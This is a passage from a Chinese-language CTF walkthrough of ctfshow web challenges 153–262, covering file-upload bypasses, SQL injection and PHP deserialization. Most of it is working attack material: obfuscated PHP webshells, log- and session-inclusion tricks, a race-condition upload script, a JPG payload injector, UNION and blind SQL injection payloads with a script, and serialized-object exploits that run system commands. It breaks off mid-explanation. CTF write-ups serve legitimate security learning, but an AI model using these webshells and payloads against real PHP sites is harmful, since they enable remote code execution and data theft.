2. 先来看下怎么构造`.user.ini`，这两个选项就类似文件包含，只要当前目录下有`.php`文件，默认会把包含的文件插入到`.php`文件头/文件尾上，当文件尾后面有`exit`时，会停止程序

   ```shell
   auto_prepend_file = <filename>         //包含在文件头
   auto_append_file = <filename>          //包含在文件尾
   ```

3. 因为可以利用文件包含，这里我们先上传一个图片马

   

4. 访问下`/upload`目录下，发现刚好有个`index.php`，不用自己上传了

5. 上传`.user.ini`目录配置文件，为了避免出错，把包含`ma.png`添加到文件头位置

   

6. 访问`/upload/index.php`，利用工具rec即可

   


参考文章:

[.htaccess和.user.ini配置文件妙用](https://www.dazhuanlan.com/2020/03/08/5e641cbc397c2/)


### web154

1. 上传图片马时发现对文件内容做了过滤，会显示文件内容不合规

   

2. Fuzz测试下他对哪个字符会进行过滤

   ```shell
   < 正常
   <? 正常
   <?php 失败
   php 正常
   <?Php 正常
   ```

3. 发现是`<?php`进行了过滤，利用刚刚的大小写进行绕过

   

4. 因为上传的是`png`没有被解析，利用上一题上传的`.user.ini`文件进行配合解析

   

5. 因为`/upload`目录下正好有个`index.php`，这样把包含的文件插入到`index.php`文件头/文件尾上，访问利用工具提交即可

   

   

### web155

1. 在上题的基础上，检查图片内容，过滤了`php`字符，大小写也过滤了

   

2. 可以利用php短标签进行绕过

   ```php
   <? echo '123';?>
   #开启配置参数short_open_tags=on
   
   <?=(表达式)?> == <?php echo (表达式)?>
   #不需要开启参数设置
   
   <% echo '123';%>
   #开启配置参数asp_tags=on，但是7.0以下版本可以使用
     
   <script language=”php”>echo '123'; </script>
   #php7.0版本以下可以使用
   ```

3. 这里利用第二种方法进行绕过

   

4. 再进行上传`.user.ini`配置文件，这里不多解释了，访问进行配合解析，利用工具连接REC即可

   


### web156

1. 在前面基础上还过滤了`[`

   

2. 但是可以利用直接代码执行，或者用`{}`进行绕过

   ```shell
   <?= system('tac ../fla*');?>
   
   <?= eval($_POST{cmd});?>
   ```

   

3. 配合上传`.user.ini`进行解析，利用工具rec

   


### web157

1. 在上面的基础上，还过滤了`;` `{}`

2. 分号在一条语句的情况下，可以利用`?>`结尾结束代替进行绕过，`{}`过滤了，就不能传参数了，直接代码执行吧

   ```php
   <?= system("tac ../fl*")?>
   ```

   

3. 配合上传`.user.ini`，访问即可

   


### web158

与`web157`相同，可参考


### web159

1. 在上面基础上，过滤了`()`

2. 利用反引号，达到命令执行效果

   ```php
   <?= `tac ../fl*`?>
   ```

   

3. 配合`.user.ini`进行解析，访问页面

   


### web160

1. 在上题的基础上把反撇号，空格给过滤了，那么基本上无法执行命令了

2. 利用文件`nginx`日志进行文件包含，`nginx`日志路径`/var/log/nginx/access.log`

3. 抓包发送时，发现`log`也被过滤了

   

4. 利用拼接进行绕过

   

5. 上传`.user.ini`配合解析，注意空格

   

6. 改写`UA`头，访问页面执行php命令

   


### web161

1. 在前面的步骤上，添加了对图片信息检测，这里我把源码拉下来了

   ```php
   <?php
   error_reporting(0);
   if ($_FILES["file"]["error"] > 0)
   {
   	$ret = array("code"=>2,"msg"=>$_FILES["file"]["error"]);
   }
   else
   {
       $filename = $_FILES["file"]["name"];
       $filesize = ($_FILES["file"]["size"] / 1024);
       if($filesize>1024){
       	$ret = array("code"=>1,"msg"=>"文件超过1024KB");
       }else{
       	if($_FILES['file']['type'] == 'image/png'){
               $arr = pathinfo($filename);
               $ext_suffix = $arr['extension'];
           //检测文件后缀名是不是php
               if($ext_suffix!='php'){
                 //检查上传文件内容
                   $content = file_get_contents($_FILES["file"]["tmp_name"]);
                   if(stripos($content, "php")===FALSE && check($content) && getimagesize($_FILES["file"]["tmp_name"]))
                     //检查图片头
                   {
                       move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".$_FILES["file"]["name"]);
                       $ret = array("code"=>0,"msg"=>"upload/".$_FILES["file"]["name"]);
                   }else{
                       $ret = array("code"=>2,"msg"=>"文件类型不合规");
                   }
                   
               }else{
                   $ret = array("code"=>2,"msg"=>"文件类型不合规");
               }
       		
       	}else{
       		$ret = array("code"=>2,"msg"=>"文件类型不合规");
       	}
       	
       }
   
   }
   function check($str){
       return !preg_match('/php|\{|\[|\;|log|\(| |\`/i', $str);
   }
   echo json_encode($ret);
   ```

2. 添加图片文件头然后后续步骤与`web160`相似，日志文件包含

   

3. 上传`.user.ini`

   

4. 改写`UA`头，写shell，命令执行即可

   


### web162/163(session文件包含)

1. 这里在上面的基础上还过滤了`.` `flag`  ，导致无法使用`nginx`日志文件了，这里用会话文件进行包含，利用`PHP_SESSION_UPLOAD_PROGRESS`上传进度来实现，具体原理不再阐述了，请参看[文件包含-web82](https://www.yuque.com/seals6/szn0t2/scsu3b)

2. 这里先讲讲如何用手工去做，先构造一个上传表单，抓包上传文件，添加我们的自定义`sessionid`，构造我们的命令

   ```html
   <!DOCTYPE html>
   <html lang="en">
   <head>
       <meta charset="UTF-8">
       <title>session upload</title>
   </head>
   <body>
   <form action="http://ef9b7985-b104-4bbc-94c4-596133d834f1.challenge.ctf.show:8080/" method="POST" enctype="multipart/form-data">
     <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
     <input type="file" name="file1" />
     <input type="submit" />
   </form>
   </body>
   </html>
   ```

   

3. 上传我们的`ma.png`，发现`.`  `flag`被过滤了，修改成包含我们自定义的`/tmp/sess_fl`目录下的会话文件，同时把上传文件名也修改成没有后缀名，这样在`.user.ini`中就不会再过滤

   

4. 上传`.user.ini`

   

5. 因为`PHP_SESSION_UPLOAD_PROGRESS`上传完成后，会清空session中的内容，所以要利用条件竞争，不断上传，不断访问，利用`burp`intruder模块进行竞争

   

6. 下面附上`python`脚本

   ```python
   # -*- coding: utf-8 -*-
   '''
   PS:前提先完成上传.user.ini和ma的前两个步骤，脚本只是完成上传upload_progress，和条件竞争
   '''
   import requests
   import io
   import threading
   
   url1="http://84a97d83-62d6-422b-a3db-5c74be7d7b8a.challenge.ctf.show:8080/"
   url2=url1+"upload/index.php"
   sess="fl"
   data={"abc":"system('tac ../f*');"}
   
   def write(session):
       while True:
           f = io.BytesIO(b'a' * 1024 * 50)
           r1=session.post(url=url1,
                            data={"PHP_SESSION_UPLOAD_PROGRESS":'123<?php eval($_POST["abc"]);?>'},
                            cookies={"PHPSESSID":sess},
                            files={'file': ('1.txt', f)})
   
   def read(session):
       while True:
           resp = session.post(url2,data=data)
           if '1.txt' in resp.text:
               print(resp.text)
               event.clear()
           else:
               # print("retry")
               pass
   
   if __name__ == "__main__":
       event = threading.Event()
       with requests.session() as session:
           for i in range(0,30):
               threading.Thread(target=write, args=(session,)).start()
   
           for i in range(0,30):
               threading.Thread(target=read, args=(session,)).start()
       event.set()
   ```

### web164(PNG二次渲染)

1. 这里题目提示改头换面，看了下源码，发现有个`<a href='download.php?image=`好像是文件包含的链接

2. 上传图片发现，只能上传`png`，上传成功后，把图片下载下来后发现大小不一样，应该是被二次渲染了

3. 这里利用`png二次渲染的脚本`生成png图片，进行上传

   ```php
   <?php
   
   /*<?$_GET[0]($_POST[1]);?>*/
   
   $p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
       0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
       0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
       0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
       0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
       0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
       0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
       0x66, 0x44, 0x50, 0x33);
   
   
   
   $img = imagecreatetruecolor(32, 32);
   
   for ($y = 0; $y < sizeof($p); $y += 3) {
       $r = $p[$y];
       $g = $p[$y+1];
       $b = $p[$y+2];
       $color = imagecolorallocate($img, $r, $g, $b);
       imagesetpixel($img, round($y / 3), 0, $color);
   }
   
   imagepng($img,'1.png');
   
   ```

4. 成功后点击访问拖页面，抓包提交参数达到命令执行

   


### web165(JPG二次渲染绕过)

1. 与上题一样，但是是jpg图片二次渲染，这里有很多玄学的问题，参考了多个师傅的文章，放在了本文末尾

2. 因为自己选的jpg图片就没成功，很玄学，最后使用了国光师傅的jpg文件和教程，这里贴出来

   

3. 先将本图片进行上传，让服务器端进行二次渲染，把渲染之后的图片重新下载下来，保存为`download.php.jpg`图片，当然你也可以命名为其他的，为什么要先上传渲染一遍，因为玄学...

4. 这里附上jpg二次渲染绕过的脚本

   ```php
   <?php
   	$miniPayload = '<?=eval($_POST[1]);?>';
   
   
   	if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
       	die('php-gd is not installed');
   	}
   
   	if(!isset($argv[1])) {
   		die('php jpg_payload.php <jpg_name.jpg>');
   	}
   
   	set_error_handler("custom_error_handler");
   
   	for($pad = 0; $pad < 1024; $pad++) {
   		$nullbytePayloadSize = $pad;
   		$dis = new DataInputStream($argv[1]);
   		$outStream = file_get_contents($argv[1]);
   		$extraBytes = 0;
   		$correctImage = TRUE;
   
   		if($dis->readShort() != 0xFFD8) {
   			die('Incorrect SOI marker');
   		}
   
   		while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
   			$marker = $dis->readByte();
   			$size = $dis->readShort() - 2;
   			$dis->skip($size);
   			if($marker === 0xDA) {
   				$startPos = $dis->seek();
   				$outStreamTmp =
   					substr($outStream, 0, $startPos) .
   					$miniPayload .
   					str_repeat("\0",$nullbytePayloadSize) .
   					substr($outStream, $startPos);
   				checkImage('_'.$argv[1], $outStreamTmp, TRUE);
   				if($extraBytes !== 0) {
   					while((!$dis->eof())) {
   						if($dis->readByte() === 0xFF) {
   							if($dis->readByte !== 0x00) {
   								break;
   							}
   						}
   					}
   					$stopPos = $dis->seek() - 2;
   					$imageStreamSize = $stopPos - $startPos;
   					$outStream =
   						substr($outStream, 0, $startPos) .
   						$miniPayload .
   						substr(
   							str_repeat("\0",$nullbytePayloadSize).
   								substr($outStream, $startPos, $imageStreamSize),
   							0,
   							$nullbytePayloadSize+$imageStreamSize-$extraBytes) .
   								substr($outStream, $stopPos);
   				} elseif($correctImage) {
   					$outStream = $outStreamTmp;
   				} else {
   					break;
   				}
   				if(checkImage('payload_'.$argv[1], $outStream)) {
   					die('Success!');
   				} else {
   					break;
   				}
   			}
   		}
   	}
   	unlink('payload_'.$argv[1]);
   	die('Something\'s wrong');
   
   	function checkImage($filename, $data, $unlink = FALSE) {
   		global $correctImage;
   		file_put_contents($filename, $data);
   		$correctImage = TRUE;
   		imagecreatefromjpeg($filename);
   		if($unlink)
   			unlink($filename);
   		return $correctImage;
   	}
   
   	function custom_error_handler($errno, $errstr, $errfile, $errline) {
   		global $extraBytes, $correctImage;
   		$correctImage = FALSE;
   		if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
   			if(isset($m[1])) {
   				$extraBytes = (int)$m[1];
   			}
   		}
   	}
   
   	class DataInputStream {
   		private $binData;
   		private $order;
   		private $size;
   
   		public function __construct($filename, $order = false, $fromString = false) {
   			$this->binData = '';
   			$this->order = $order;
   			if(!$fromString) {
   				if(!file_exists($filename) || !is_file($filename))
   					die('File not exists ['.$filename.']');
   				$this->binData = file_get_contents($filename);
   			} else {
   				$this->binData = $filename;
   			}
   			$this->size = strlen($this->binData);
   		}
   
   		public function seek() {
   			return ($this->size - strlen($this->binData));
   		}
   
   		public function skip($skip) {
   			$this->binData = substr($this->binData, $skip);
   		}
   
   		public function readByte() {
   			if($this->eof()) {
   				die('End Of File');
   			}
   			$byte = substr($this->binData, 0, 1);
   			$this->binData = substr($this->binData, 1);
   			return ord($byte);
   		}
   
   		public function readShort() {
   			if(strlen($this->binData) < 2) {
   				die('End Of File');
   			}
   			$short = substr($this->binData, 0, 2);
   			$this->binData = substr($this->binData, 2);
   			if($this->order) {
   				$short = (ord($short[1]) << 8) + ord($short[0]);
   			} else {
   				$short = (ord($short[0]) << 8) + ord($short[1]);
   			}
   			return $short;
   		}
   
   		public function eof() {
   			return !$this->binData||(strlen($this->binData) === 0);
   		}
   	}
   ?>
   ```

5. `payload`可以自己更改，将服务器下载好的图片与php脚本放在一起，利用命令行，生成payload图片

   ```shell
   php jpg_payload.php download.php.jpg
   ```

6. 然后进行上传图片，访问文件包含图片地址，抓包，post数据，命令执行

   


参考文章：

[国光-国光的文件上传靶场知识总结](https://www.sqlsec.com/2020/10/upload.html#toc-heading-17)

[南方师傅-web165](https://www.wlhhlc.top/posts/14827/)

[二次渲染绕过](https://www.fujieace.com/penetration-test/upload-labs-pass-16.html)


### web166(前端绕过)

1. 发现前端只能上传zip文件，但返回地址是个文件包含漏洞

2. 将一句话木马改为zip文件，进行上传，注意`Content-Type`为`application/x-zip-compressed`

   

3. 利用工具连接返回地址，rce即可

   


### web167(.htaccess绕过)

1. 抓包上传发现只能上传`jpg`文件，在测试`upload`目录是否还有php文件时，发现报错`apache`服务

   

2. 利用`.htaccess`文件进行解析图片，原理与`.user.ini`类似，抓包上传

   

3. 访问我的图片马，执行命令

   


### web168(基础免杀)

1. 可以直接抓包上传php，但是`system` `eval`被过滤了

2. 下面是收集的几个免杀脚本

   ```php
   #利用反引号执行系统命令
   <?=`$_REQUEST[1]`;?>
   ```

   ```php
   #利用传参数
   <?php
   $a=$_REQUEST['a'];
   $b=$_REQUEST['b'];
   $a($b);
   ?>
   ```

   ```php
   #利用拼接
   <?php $a='syste'.'m';
   ($a)('ls ../');
   ?>
   ```

   ```PHP
   #拼接
   <?php
   $a = "s#y#s#t#e#m";
   $b = explode("#",$a);
   $c = $b[0].$b[1].$b[2].$b[3].$b[4].$b[5];
   $c($_REQUEST[1]);
   ?>
   ```

   ```php
   #拼接
   <?php
   $a=substr('1s',1).'ystem';
   $a($_REQUEST[1]);
   ?>
   ```

   ```php
   #利用反转字符
   <?php
   $a=strrev('metsys');
   $a($_REQUEST[1]);
   ?>
   ```

   ```php
   #利用数学函数
   <?php
   $pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{abs})($$pi{acos});
   # get传参   abs=system&acos=ls
   ```

3. 这里我直接利用第四个进行绕过，上传，执行命令

   

4. 传参数，执行rce

   


### web169/170(.user.ini日志包含)

1. 抓包，发现前端只能上传`zip`文件，这里把木马改为`ma.zip`

2. 发包发现，还是不能上传，这里修改`Content-Type`为`image/png`可以上传php，但是过滤了`<` `php`，所以php代码肯定用不了，利用日志文件包含

3. 上传`.user.ini`将nginx日志包含到当前目录任意php文件上

   

4. 上传个随意php文件，改写`UA头`，写shell

   

5. 访问网页，利用工具提交参数即可

   


## 7.sql注入

### web171(联合查询)

1. 没有过滤最基础的联合查询爆数据，这里只写payload了

   ```shell
   #判断回显位
   -1' union select 1,2,3--+
   
   #爆表
   -1' union select group_concat(table_name),2,3 from information_schema.tables where table_schema=database()--+
   
   #爆列
   -1'  union select group_concat(column_name),2,3 from information_schema.columns where table_name='ctfshow_user'--+
   
   #爆数据
   -1'  union select id,username,password from ctfshow_user--+
   ```


### web172(联合查询)

1. 还是一样的基础注入，只放payload了

   ```shell
   #这次只有两个列了
   1' order by 2--+
   
   #判断回显位
   -1' union select 1,2--+
   
   #爆表，这次多了个表
   -1' union select group_concat(table_name),2 from information_schema.tables where table_schema=database()--+
   
   #应该是第二个表里，才有flag,爆列
   -1' union select group_concat(column_name),2 from information_schema.columns where table_schema=database() and table_name='ctfshow_user2'--+
   
   #爆数据，因为会检查username值是否有flag,有的话，flag就不会显示出来，所以直接把username置为1
   -1' union select 1,password from ctfshow_user2--+
   ```


### web173(联合查询+过滤)

1. 这里返回逻辑对`flag`进行了过滤，所以要将返回值进行编码下，下面放payload，具体步骤都是类似的

   ```shell
   #又恢复成3列了，判断回显
   -1' union select 1,2,3 --+
   
   #爆表
   -1' union select group_concat(table_name),2,3 from information_schema.tables where table_schema=database() --+
   
   #爆列，经验告诉我肯定在第三张表
   -1' union select group_concat(column_name),2,3 from information_schema.columns where table_schema=database() and table_name='ctfshow_user3'--+
   
   #爆数据，编码下绕过过滤
   -1' union select id,to_base64(username),to_base64(password) from ctfshow_user3--+
   -1' union select id,hex(username),hex(password) from ctfshow_user3--+
   ```


### web174(布尔盲注+过滤)

1. 这里返回逻辑把`flag`数字都过滤了，那么编码的方法肯定不能用了，利用布尔盲注吧，先简单测一下

   ```shell
   #看看有几列
   1' order by 2--+
   
   #看看回显位，因为过滤了数字，肯定不能用数字进行回显了
   -1' union select 'a','b'--+
   
   #爆数据库名字
   -1' union select database(),'b'--+
   
   #根据经验，表肯定是ctfshow_user4,这里因为有数字，肯定会被过滤，构造布尔盲注测试一下
   -1' union select if(ascii(substr((select database()),0,1))>97,'yes','no'),'b'--+
   ```

2. 这里写个脚本来跑

   ```python
   # -*- coding: utf-8 -*-
   '''
   @Time : 2021/7/23 11:07
   @Author : Seals6
   @File : web164.py
   @contact: 972480239@qq.com
   @blog: seals6.github.io
   
   -*- 功能说明 -*-
   
   -*- 更新说明 -*-
   
   '''
   import requests
   url="http://5272c169-2883-4fca-8822-f7dd6daa672f.challenge.ctf.show:8080/api/v4.php"
   i=0
   flag=""
   
   while True:
       i+=1
       max=128
       min=30
   
       while min<max:
           mid = (max + min) // 2
           payload="-1' union select 'a',if(ascii(substr((select group_concat(password) from ctfshow_user4 where username='flag'),%d,1))>%d,'yes','no') -- "%(i,mid)
           params = {"id": payload}
           r=requests.get(url=url,params=params)
           # print(r.url)
           if "yes" in r.text:
               # print(r.text)
               min=mid+1
           else:
               max=mid
       if min != 30:
           flag+=chr(min)
       else:
           break
       print(flag)
   ```

   

## 8.php反序列化

### web254

1. 老样子代码审计

   ```php
   <?php
   error_reporting(0);
   highlight_file(__FILE__);
   include('flag.php');
   
   //定义类
   class ctfShowUser{
       public $username='xxxxxx';
       public $password='xxxxxx';
       public $isVip=false;
   
     //定义类中的checkvip方法，返回isVIP属性值
       public function checkVip(){
           return $this->isVip;
       }
     //定义类中的login方法，提供username和passwpord公共接口
       public function login($u,$p){
         #对username和password的值进行校验
           if($this->username===$u&&$this->password===$p)
           {
             #校验正确,isVip为真
               $this->isVip=true;
           }
         //返回isVIP属性值
           return $this->isVip;
       }
     //定义类中的vipOneKeyGetFlag方法，校验isVIP是否为真，输出flag
       public function vipOneKeyGetFlag(){
           if($this->isVip){
               global $flag;
               echo "your flag is ".$flag;
           }else{
               echo "no vip, no flag";
           }
       }
   }
   
   $username=$_GET['username'];
   $password=$_GET['password'];
   
   if(isset($username) && isset($password))
     //获取username和password是否有值
   {
       $user = new ctfShowUser();
     //创建对象
       if($user->login($username,$password))
         //调用成员函数,校验username，password值
       {
         //调用成员函数，返回isVIP属性值
           if($user->checkVip())
           {
             //调用成员函数，获取flag
               $user->vipOneKeyGetFlag();
           }
       }else{
           echo "no vip,no flag";
       }
   } 
   ```

2. 主要是对`username`和`password`的值进行核对，没有用到反序列化

   ```shell
   ?username=xxxxxx&password=xxxxxx
   ```


### web255

1. 代码审计

   ```php
   <?php
   error_reporting(0);
   highlight_file(__FILE__);
   include('flag.php');
   
   class ctfShowUser{
       public $username='xxxxxx';
       public $password='xxxxxx';
       public $isVip=false;
   
       public function checkVip(){
           return $this->isVip;
       }
       public function login($u,$p){
           return $this->username===$u&&$this->password===$p;
         //这里没有返回isVIP的值
       }
       public function vipOneKeyGetFlag(){
           if($this->isVip){
               global $flag;
               echo "your flag is ".$flag;
           }else{
               echo "no vip, no flag";
           }
       }
   }
   
   $username=$_GET['username'];
   $password=$_GET['password'];
   #前面定义类和上一题类似
   
   if(isset($username) && isset($password))
     //对传递的参数进行校验是否有值
   {
     //对接收的cookie值进行反序列化赋值给$user
       $user = unserialize($_COOKIE['user']);
     //调用成员函数进行校验
       if($user->login($username,$password)){
           if($user->checkVip()){
               $user->vipOneKeyGetFlag();
           }
       }else{
           echo "no vip,no flag";
       }
   }
   ```

2. 简单分析下，代码首先校验`GET`传递的参数是否有值，然后对接收到`cookie`值进行反序列还原成对象，然后调用成员函数对对象中`username`和`password`值与传递的参数进行校验，然后校验`isVip`是否为真，输出flag

   ```php
   #所以这里我们进行序列化赋值给cookie
   <?php
   class ctfShowUser{
       public $username='xxxxxx';
       public $password='xxxxxx';
     #必须设置$isVip为真，上面代码没有返回值
       public $isVip=true;
   }
   $a=new ctfShowUser();
   #需要对值进行url编码，cookie无法对分号进行处理
   echo urlencode(serialize($a));
   ?>
     
   #输出
   #O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
   ```

   利用工具进行提交   


### web256

1. 代码审计

   ```php
   <?php
   error_reporting(0);
   highlight_file(__FILE__);
   include('flag.php');
   
   class ctfShowUser{
       public $username='xxxxxx';
       public $password='xxxxxx';
       public $isVip=false;
   
       public function checkVip(){
           return $this->isVip;
       }
       public function login($u,$p){
           return $this->username===$u&&$this->password===$p;
       }
       public function vipOneKeyGetFlag(){
           if($this->isVip){
               global $flag;
               if($this->username!==$this->password){
                 #判断username不等于password时输出flag
                       echo "your flag is ".$flag;
                 }
           }else{
               echo "no vip, no flag";
           }
       }
   }
   
   $username=$_GET['username'];
   $password=$_GET['password'];
   
   if(isset($username) && isset($password)){
       $user = unserialize($_COOKIE['user']);    
       if($user->login($username,$password)){
           if($user->checkVip()){
               $user->vipOneKeyGetFlag();
           }
       }else{
           echo "no vip,no flag";
       }
   } 
   ```

2. 分析下，这里跟上题差不多，只不过要求`username`和`password`值不能相同，这里构造不一样的就行了

   ```php
   <?php
   class ctfShowUser{
       public $username='1';
       public $password='2';
       public $isVip=true;
   }
   $a=new ctfShowUser();
   echo urlencode(serialize($a));
   ?>
     
   #输出
   #O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A1%3A%221%22%3Bs%3A8%3A%22password%22%3Bs%3A1%3A%222%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
   ```

3. 利用工具传值就好了

   


### web257

1. 代码审计

   ```php
   <?php
   error_reporting(0);
   highlight_file(__FILE__);
   
   class ctfShowUser{
       private $username='xxxxxx';
       private $password='xxxxxx';
       private $isVip=false;
       private $class = 'info';
     
     //魔术方法，当对象被创建时被触发
       public function __construct(){
         #这里创建info对象  
         $this->class=new info();
       }
       public function login($u,$p){
           return $this->username===$u&&$this->password===$p;
       }
     //魔术方法，当对象被销毁时，自动触发
       public function __destruct(){
         //调用对象中的成员函数
           $this->class->getInfo();
       }
   
   }
   
   class info{
       private $user='xxxxxx';
       public function getInfo(){
           return $this->user;
       }
   }
   
   //需要去利用的后门类
   class backDoor{
       private $code;
       public function getInfo(){
           eval($this->code);
       }
   }
   
   $username=$_GET['username'];
   $password=$_GET['password'];
   
   if(isset($username) && isset($password)){
       $user = unserialize($_COOKIE['user']);
       $user->login($username,$password);
   }
   ```

2. 这里要利用魔术方法，当对象被销毁时，调用成员`getInfo`方法，所以要让`Cookie`反序列化的对象为`backdoor`类，然后对象被销毁后调用析构函数，去执行`eval`函数

   ```php
   #构造序列化backdoor对象
   <?php
   class ctfShowUser{
       private $username='xxxxxx';
       private $password='xxxxxx';
       private $isVip=false;
       private $class = 'info';
   
       public function __construct(){
           $this->class=new backDoor();
       }
       public function login($u,$p){
           return $this->username===$u&&$this->password===$p;
       }
       public function __destruct(){
           $this->class->getInfo();
       }
   
   }
   
   class backDoor{
       private $code="system('tac flag.php');";
       public function getInfo(){
           eval($this->code);
       }
   }
   $a=new ctfShowUser();
   echo(urlencode(serialize($a)));
   ?>
     
   #输出
   #O%3A11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A21%3A%22%00ctfShowUser%00username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A21%3A%22%00ctfShowUser%00password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A18%3A%22%00ctfShowUser%00isVip%22%3Bb%3A0%3Bs%3A18%3A%22%00ctfShowUser%00class%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A14%3A%22%00backDoor%00code%22%3Bs%3A23%3A%22system%28%27tac+flag.php%27%29%3B%22%3B%7D%7D
   ```

3. 利用工具发送数据包

   


### web258

1. 依然是代码审计

   ```php
   <?php
   error_reporting(0);
   highlight_file(__FILE__);
   
   class ctfShowUser{
       public $username='xxxxxx';
       public $password='xxxxxx';
       public $isVip=false;
       public $class = 'info';
   
       public function __construct(){
           $this->class=new info();
       }
       public function login($u,$p){
           return $this->username===$u&&$this->password===$p;
       }
       public function __destruct(){
           $this->class->getInfo();
       }
   
   }
   
   class info{
       public $user='xxxxxx';
       public function getInfo(){
           return $this->user;
       }
   }
   
   class backDoor{
       public $code;
       public function getInfo(){
           eval($this->code);
       }
   }
   
   $username=$_GET['username'];
   $password=$_GET['password'];
   
   if(isset($username) && isset($password)){
       if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user']))
         //这里增加了正则的匹配	o:数字:
       {
           $user = unserialize($_COOKIE['user']);
       }
       $user->login($username,$password);
   }
   ```

2. 利用payload的数字前面加上`+`号绕过正则

   ```php
   <?php
   class ctfShowUser{
       public $username='xxxxxx';
       public $password='xxxxxx';
       public $isVip=false;
       public $class = 'info';
   
       public function __construct(){
           $this->class=new backDoor();
       }
       public function login($u,$p){
           return $this->username===$u&&$this->password===$p;
       }
       public function __destruct(){
           $this->class->getInfo();
       }
   
   }
   
   class backDoor{
       public $code="system('tac flag.php');";
       public function getInfo(){
           eval($this->code);
       }
   }
   //这里创建对象进行序列化操作
   $a=serialize(new ctfShowUser());
   //对两个O开头后的数字前面加上+号进行替换
   $b=str_replace('11','+11',$a);
   $c=str_replace('8','+8',$b);
   //输出url编码
   echo urlencode($c);
   ?>
   
   #输出
   #O%3A%2B11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A%2B8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A%2B8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A0%3Bs%3A5%3A%22class%22%3BO%3A%2B8%3A%22backDoor%22%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A23%3A%22system%28%27tac+flag.php%27%29%3B%22%3B%7D%7D
   ```

3. 利用工具进行提交

   


### web259


### web260

1. 代码审计

   ```php
   <?php
   
   error_reporting(0);
   highlight_file(__FILE__);
   include('flag.php');
   
   if(preg_match('/ctfshow_i_love_36D/',serialize($_GET['ctfshow'])))
     //正则匹配到序列化GET请求的值为ctfshow_i_love_36D，就输出flag
   {
       echo $flag;
   }
   ```

2. 就相当于传值为`ctfshow_i_love_36D`，因为字符串的序列化后的值为`s:18:"ctfshow_i_love_36D";`正好会被正则匹配上

   ```shell
   ?ctfshow=ctfshow_i_love_36D
   ```

   


### web261


### web262

1. 代码审计

   ```php
   <?php
   
   /*
   # -*- coding: utf-8 -*-
   # @Author: h1xa
   # @Date:   2020-12-03 02:37:19
   # @Last Modified by:   h1xa
   # @Last Modified time: 2020-12-03 16:05:38
   # @message.php
   # @email: h1xa@ctfer.com
   # @link: https://ctfer.com
   
   */
   
   error_reporting(0);
   class message{
       public $from;
       public $msg;
       public $to;
       public $token='user';
       public function __construct($f,$m,$t){
           $this->from = $f;
           $this->msg = $m;
           $this->to = $t;
       }
   }
   
   $f = $_GET['f'];
   $m = $_GET['m'];
   $t = $_GET['t'];
   
   //判断传参是否有值
   if(isset($f) && isset($m) && isset($t))
   {
     //创建对象
       $msg = new message($f,$m,$t);
     //这里将序列化中的fuck字符替换成loveU
       $umsg = str_replace('fuck', 'loveU', serialize($msg));
     //设置cookie,进行base64编码
       setcookie('msg',base64_encode($umsg));
       echo 'Your message has been sent';
   }
   
   highlight_file(__FILE__);
   ```

2. 注释里面还提示了一个`message.php`页面

   ```php
    <?php
   /*
   # -*- coding: utf-8 -*-
   # @Author: h1xa
   # @Date:   2020-12-03 15:13:03
   # @Last Modified by:   h1xa
   # @Last Modified time: 2020-12-03 15:17:17
   # @email: h1xa@ctfer.com
   # @link: https://ctfer.com
   
   */
   highlight_file(__FILE__);
   include('flag.php');
   
   class message{
       public $from;
       public $msg;
       public $to;
       public $token='user';
     //魔术方法，当对象被创建时自动调用
       public function __construct($f,$m,$t){
           $this->from = $f;
           $this->msg = $m;
           $this->to = $t;
       }
   }
   
   //检查接收的Cookie是否有值
   if(isset($_COOKIE['msg'])){
     //将cookie值进行base64解码再进行反序列化
       $msg = unserialize(base64_decode($_COOKIE['msg']));
     //当对象的成员token属性值为admin，则输出flag
       if($msg->token=='admin'){
           echo $flag;
       }
   }
   ```

3. 这里有两种解法，先说预期解法，因为在`index.php`中，需要传递参数进行序列化，并对`fuck`进行替换字符串，再设置cookie值，在替换`fuck`时，原本序列化的长度为4，替换之后的文本为`loveU`，长度为5，再进行反序列化时就会有一个字符会被逃逸出来，当我们写的`fuck`足够多的时候，就可以逃逸出来我们构造的恶意代码。

4. 在`message.php`中会反序列化接收到的cookie值，并且在`token==admin`才会输出`flag`，那么我们先输出一下原本序列化后的结果

   ```php
   <<?php
   class message{
       public $from;
       public $msg;
       public $to;
       public $token='user';
       public function __construct($f,$m,$t){
           $this->from = $f;
           $this->msg = $m;
           $this->to = $t;
       }
   }
   
   $f = 'a';
   $m = 'b';
   $t = 'c';
   $a=new message($f,$m,$t);
   echo serialize($a);
   //O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:1:"c";s:5:"token";s:4:"user";}
   //可以看到我们需要修改的就是这一部分";s:5:"token";s:4:"user";}
